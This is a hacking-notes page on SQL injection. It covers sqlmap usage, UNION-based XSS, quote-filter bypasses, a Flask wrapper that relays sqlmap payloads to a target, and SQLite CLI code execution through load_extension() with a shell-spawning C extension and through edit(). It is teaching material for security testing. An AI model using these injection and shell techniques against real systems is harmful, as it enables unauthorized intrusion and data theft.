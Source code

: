 ```yaml
---
description: >-
  An infamous and simple attack where code is injected where data should be,
  rewriting the SQL Query
---
```


# SQL Injection

## SQLMap

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap" %}

You can run a raw request through `sqlmap` with cookies and POST to find any injection:

```shell-session
$ sqlmap -r r.txt --batch
```

* `--level=5` tests more inputs, like HTTP headers
* `--risk=3` tests more injection payloads

### XSS/SQLi through SQL Injection

{% embed url="https://jorianwoltjer.com/blog/post/hacking/intigriti-xss-challenge/intigriti-july-xss-challenge-0722" %}
Writeup showing XSS through a Second-Order injection (3-in-one)
{% endembed %}

Use `UNION SELECT` statements to alter the returned content on the site, with an XSS payload for example.

{% hint style="info" %}
Also try 'Second-Order' injection, by doing another injection inside of your `UNION` content if not all values can be altered (see the writeup above)
{% endhint %}

### Filter Bypass

Some scenarios where you can bypass character limits using functions or special syntax. \
&#xNAN;**`+`** here means supported in more than just the mentioned DB backend.

* Quotes (`'` & `"`) like `"j0r1an"`:&#x20;
  * Use `0x6a307231616e` in **MySQL**: [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Hex\('None',0\)Find_/_Replace\(%7B'option':'Regex','string':'.*'%7D,'0x$%26',false,false,false,false\)\&input=ajByMWFu)
  * Use [`char(106,48,114,49,97,110)`](https://www.sqlite.org/lang_corefunc.html#char) in **SQLite+**: [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Decimal\('Comma',false\)Find_/_Replace\(%7B'option':'Regex','string':'.*'%7D,'char\($%26\)',false,false,true,true\)\&input=ajByMWFu)

### Custom Wrapper (complex injections)

While most inputs are as simple as a query or body parameter, not all flows are like this. Interactions sometimes require special headers or formatting of the input, or the result of your action might only be visible on a different page. In these scenarios, SQLMap can fall short in its customization because it simply does not support everything.&#x20;

One clever solution to this is from a case where the hacker had to automate a blind SQL injection over a websocket. These are normally not possible in SQLMap, so you might think you need to create a custom script to extract all data slowly. While this is possible, an easier alternative is to **create a wrapper script** that makes it easy for SQLMap.&#x20;

{% embed url="https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html" %}
Writing a custom wrapper server for SQLMap to make exploitation easier
{% endembed %}

By creating a simple web server with a single query parameter as the payload, you can implement the full interaction in Python and then send back the result to SQLMap. You may do this for any kind of complex interaction with a server like this:

<pre class="language-python" data-title="proxy.py"><code class="lang-python">from flask import Flask, request
import requests

app = Flask(__name__)

def interact(payload):
    print(f"Payload: {payload}")
    # Example complex interaction
<strong>    requests.post("https://example.com/save", json={"input": payload})
</strong><strong>    r = requests.get("https://example.com/get_result")
</strong><strong>    return r.text
</strong>
@app.route('/')
def index():
    payload = request.args.get('id')
    return interact(payload)

if __name__ == '__main__':
    app.run(debug=False)
</code></pre>

Then run your server locally, and target _it_ instead of the regular target to proxy the traffic with your custom format and logic:

```bash
sqlmap -u 'http://localhost:5000/?id=1'
```

{% hint style="warning" %}
**Warning**: Performing this technique multiple times may make SQLMap cache results from a previous run because the same localhost URL is used. To ensure it starts completely fresh, clear the session every time using the `--flush-session` argument.
{% endhint %}

## SQLite

Tricks specific to the SQLite database backend.

### RCE through CLI

While looking through the documentation, you might notice functions that seem to have the ability to run arbitrary code on the system. The catch is that these methods are only possible using the `sqlite3` CLI tool by default, only with some very specific configuration will they be available through a normal library that uses the safer C-API behind the scenes.&#x20;

#### [`load_extension()`](https://www.sqlite.org/lang_corefunc.html#load_extension)

SQLite uses the C-API for all the heavy work, and the CLI as well as libraries are just wrappers over this. The `load_extension()` function is special as it can only be called after calling the `enable_load_extension()` function from the C-API, which is not available in SQL syntax. Fortunately, the **CLI enables this automatically** which means that if we are able to inject code into such a query, we can load extensions.&#x20;

These extensions are simply compiled C code in the form of `.so` files, with an init function:

<pre class="language-c" data-title="extension.c"><code class="lang-c">#include &#x3C;sqlite3ext.h>
SQLITE_EXTENSION_INIT1

#include &#x3C;stdlib.h>
#include &#x3C;unistd.h>

int sqlite3_extension_init(sqlite3 *db, char **pzErrMsg, const sqlite3_api_routines *pApi) {
  SQLITE_EXTENSION_INIT2(pApi);

<strong>  execve("/bin/sh", NULL, NULL);  // Spawn an interactive shell
</strong>
  return SQLITE_OK;
}
</code></pre>

```shell-session
$ gcc -s -g -fPIC -shared extension.c -o extension.so
```

Then from inside a CLI query, we can call the function with a path to the compiled extension:

<pre class="language-sql"><code class="lang-sql"><strong>sqlite> select load_extension('./extension');
</strong>$ id
uid=1001(user) gid=1001(user) groups=1001(user)
</code></pre>

#### [`edit()`](https://www.sqlite.org/cli.html#the_edit_sql_function)

The CLI also includes an extra special function used for editing data interactively, which allows its 2nd argument to decide what command to run! It is very straightforward to exploit:

<pre class="language-sql"><code class="lang-sql"><strong>sqlite> select edit(1,'id;');
</strong>uid=1001(user) gid=1001(user) groups=1001(user)
sh: 1: temp9385525e2ea5301f: not found
Error: EDITOR returned non-zero
</code></pre>

